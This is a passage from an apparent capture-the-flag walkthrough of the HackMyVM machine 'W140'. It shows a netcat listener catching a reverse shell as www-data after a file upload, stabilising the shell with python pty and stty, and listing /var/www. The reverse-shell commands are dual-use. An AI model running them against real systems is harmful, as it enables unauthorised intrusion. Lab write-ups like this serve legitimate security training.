 Now we can start our listener and upload the file we created above to the target.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```
![](/assets/img/posts/walthrough/hackmyvm/2024-10-25-w140/uploaded-file.png)

Once we upload the file, we can access it using the link given to us. After accessing it, we will get a reverse connection from the target.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.0.2.16] from (UNKNOWN) [10.0.2.36] 59908
bash: cannot set terminal process group (445): Inappropriate ioctl for device
bash: no job control in this shell
www-data@w140:/var/www/uploads/1729818027$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<027$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@w140:/var/www/uploads/1729818027$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@w140:/var/www/uploads/1729818027$ 
```

We have obtained a shell as the www-data user on the target. We will notice an uncommon file in the target's `/var/www` directory.
```bash
www-data@w140:/var/www$ ls -la
total 48
drwxr-xr-x  4 root     root  4096 Feb 21  2023 .
drwxr-xr-x 12 root     root  4096 Jan 29  2023 ..
-rw-r--r--  1 root     root 28744 Feb 21  2023 .w140.png
drwxr-xr-x  7 root     root  4096 Feb 14  2023 html
drwx------  7 www-data root  4096 Oct 24 21:00 uploads
```
